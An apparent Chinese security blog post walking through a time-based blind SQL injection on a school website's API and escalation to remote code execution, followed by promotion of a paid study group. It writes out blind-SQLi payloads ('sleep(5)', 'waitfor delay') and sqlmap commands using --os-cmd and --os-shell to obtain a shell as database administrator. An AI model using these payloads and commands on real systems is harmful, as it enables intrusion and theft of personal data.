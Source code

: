 #  SQL注入+RCE|获取学校网站shell   
snoopy  迪哥讲事   2023-11-21 22:15  
  
# SQL注入  
无意中发现一些数据是通过 API 获取的:(其实这种数据也很常见,就是其页面是一个XML文件)所以这里启动了 Burp，并在battering模式下通过intruder发送了以下SQL盲注有效负载。' or sleep(5)#--' or sleep(5)=';waitfor delay '0:0:5'--') or sleep(5)='结果：;waitfor delay '0:0:5'--这一条语句被执行。数据库延迟了5秒钟返回了数据包。请注意查看图片右下角的时间。（5193ms）下面是延迟10秒右下角时间戳（10114ms）后面使用sqlmap这个工具，利用该工具，能看到所有的数据库。数据库相当大，包含：用户名、密码、备份、地址、电话号码、电子邮件……远程代码执行(RCE)获取shell的方式很简单，这里使用sqlmap获取shell。sqlmap -u "https://xxx.com/api/v1/StudentSomething?parameter1=9999" -H "Cookie: uni-cookie=MY-COOKIE-HERE"  --random-agent --os-cmd whoamisqlmap响应返回了MSSQL的路径，且返回了我是DBA用户。（DBA：数据库管理员）之后，进行shell尝试。sqlmap -u "https://snoopy-college.tld/api/v1/StudentSomething?parameter1=9999" -H "Cookie: uni-cookie=MY-COOKIE-HERE"  --random-agent --os-shell如上所示，返回了shell。黑帽黑客可能会滥用此功能来：破坏网站关闭服务器/网站提取服务器上的所有文件（使用FTP服务器或其他）删除所有文件和目录如果你是一个长期主义者，欢迎加入我的知识星球(优先查看这个链接，里面可能还有优惠券)，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款往期回顾xss研究笔记SSRF研究笔记dom-xss精选文章2022年度精选文章Nuclei权威指南-如何躺赚漏洞赏金猎人系列-如何测试设置功能IV漏洞赏金猎人系列-如何测试注册功能以及相关Tips福利视频笔者自己录制的一套php视频教程(适合0基础的),感兴趣的童鞋可以看看,基础视频总共约200多集,目前已经录制完毕,后续还有更多视频出品https://space.bilibili.com/177546377/channel/seriesdetail?sid=2949374技术交流技术交流请加笔者微信:richardo1o1 (暗号:growing)  
